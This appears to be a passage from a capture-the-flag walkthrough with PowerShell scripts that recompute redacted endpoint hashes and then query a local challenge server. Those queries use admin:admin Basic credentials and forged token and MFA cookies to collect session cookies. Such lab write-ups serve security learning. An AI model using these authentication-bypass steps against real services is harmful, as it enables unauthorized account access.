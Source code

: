 Run the following PowerShell command in the terminal:

```
Function unredact {
  param($string)
  $endline = [byte[]]@(0x0A)
  $stringBytes = [System.Text.Encoding]::UTF8.GetBytes($string)
  $utf = $stringBytes + $endline
  $mystream = [IO.MemoryStream]::new([byte[]][char[]]$utf)
  Get-FileHash -InputStream $mystream -Algorithm SHA256
}
unredact '5f8dd236f862f4507835b0e418907ffc'
```

> The script returns the same SHA256 value as the one contained in 'token_overview.csv'. This confirms that our PowerShell script works. We can now hash all other values and restore the SHA256 values of all endpoints.
> 
> CyberChef recipe to get the hashes:
> ~~~
> Find_/_Replace({'option':'Regex','string':'(.)$'},'$1\\n',true,false,true,false)
> SHA2('256',64,160)
> ~~~

Run the following PowerShell script in the terminal to decode all endpoints:

```
Function unredact {
  param($string);
  $endline = [byte[]]@(0x0A);
  $stringBytes = [System.Text.Encoding]::UTF8.GetBytes($string);
  $utf = $stringBytes + $endline;
  $mystream = [IO.MemoryStream]::new([byte[]][char[]]$utf);
  Get-FileHash -InputStream $mystream -Algorithm SHA256;
}
$unredacted_endpoints = @();
foreach($line in gc output.txt) {
  $md5 = ($line | Select-String -Pattern '([0-9a-fA-F]{32})').Matches.Value;
  if ($md5 -ne $null)
  {
    $sha256 = (unredact $md5).Hash;
    $unredacted_endpoints += @{md5=$md5;sha256=$sha256};
  }
}
echo $unredacted_endpoints

```

Run the following PowerShell script in the terminal to test the first endpoint:

```
$md5 = "04886164e5140175bafe599b7f1cacc8"
$sha256 = "DFD05F3B46D21BC8556CDBF544325A945ED0304EC0BB7DBFD68ED5931E7FF6EE"
$session = [Microsoft.PowerShell.Commands.WebRequestSession]::new()
$cookie = [System.Net.Cookie]::new('token',$md5);
$session.Cookies.Add('http://127.0.0.1/',$cookie);
$response = (Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/tokens/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))}).Content
$token = ($response | Select-String -Pattern '([0-9.]{16,})').Matches.Value;
$cookie = [System.Net.Cookie]::new('mfa_token',$token);
$session.Cookies.Add('http://127.0.0.1/',$cookie);
$response = Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/mfa_validate/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))};
$shared_cookie = $response.Headers.'Set-Cookie';
"$md5 : $shared_cookie"
```